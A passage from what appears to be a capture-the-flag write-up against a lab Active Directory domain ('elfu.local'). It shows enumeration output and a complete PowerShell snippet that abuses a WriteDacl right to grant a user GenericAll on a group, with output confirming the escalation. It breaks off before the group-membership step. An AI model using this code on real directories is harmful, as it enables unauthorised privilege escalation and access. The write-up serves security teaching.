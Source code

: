 ```
ActiveDirectoryRights : WriteDacl
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\remote_elf
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

This means we can give whoever we want `GenericAll` permissions and then they can add whoever they want to the group. We can do that using another one of the code snippets from the talk:

```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "bjswlxyudl"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Running those same two ADSI commands again, we can see that our initial user now has `GenericAll` access.

```
ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\<USERNAME>
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

Now let's add our user to the group using another code snippet from the talk:
